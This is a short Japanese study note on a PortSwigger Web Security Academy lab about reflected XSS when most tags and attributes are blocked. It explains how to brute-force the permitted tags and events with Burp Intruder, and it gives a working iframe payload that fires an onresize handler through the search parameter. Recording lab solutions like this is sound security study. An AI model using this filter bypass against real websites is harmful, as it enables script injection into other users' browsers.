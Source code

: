 
Date: 2025-09-23
Tags: 
Links: [[XSS]], [[WSA]]

***

検索フォームでタグや属性がブロックされる。

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

1. intruderでタグ名を総当たり
2. bodyタグでバイパスできることが判明。
3. 次に属性を総当たり。
4. 色々ヒットするが、発火させやすそうな`onresize`を選択。
5. ペイロードを作成。
```javascript
<iframe src='https://0a6c004e033a5fb5805417bf00ee00a1.web-security-academy.net/?search=<body onresize=print()>' onload=this.style.width='100px'>
```
- this.style.widthではiframeの枠の大きさが変わるだけで内部のbodyのサイズは変わらないが、なぜかこれで`onresize `が発火する。
- `='100px'`のクオーテーションは必須。


***
# References

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked